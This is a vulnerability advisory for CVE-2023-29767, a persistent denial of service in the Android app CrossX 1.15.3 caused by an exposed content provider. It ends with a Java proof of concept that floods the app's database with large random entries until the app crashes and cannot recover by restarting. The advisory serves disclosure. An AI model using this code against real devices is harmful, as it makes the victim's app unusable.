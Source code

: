 # Denial of Service exists in CrossX（CVE-2023-29767）

Vendor: CROSSX SOLUÇÕES MOBILE LTDA(https://appcrossx.com/)

Affected product: CrossX(com.startapps.crossx)

Version: 1.15.3

Download link：https://play.google.com/store/apps/details?id=com.startapps.crossx

Description of the vulnerability for use in the CVE：An issue found in CrossX v.1.15.3 allows a local attacker to cause a persistent denial of service via the database files.

Additional information:  The CrossX application allows unauthorized applications to inject data into the database via interfaces in the components it exposes, which will be loaded from the database into memory upon opening the app. Once an attacker injects an excessive amount of data, it can cause the application to trigger an OOM error and crash. The user cannot completely fix the above problem by restarting the application because the data is stored persistently in the database, which eventually leads to persistent denial of service.

poc:

```java
 public void attack_crossx() {
        Uri uri = Uri.parse("content://com.startapps.crossx.contentprovider/tb_user");
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
        while (true) {
            ContentValues contentValues = new ContentValues();
            contentValues.put("email", getRandomString(10240));
            contentResolver.insert(uri, contentValues);
        }
    }
```
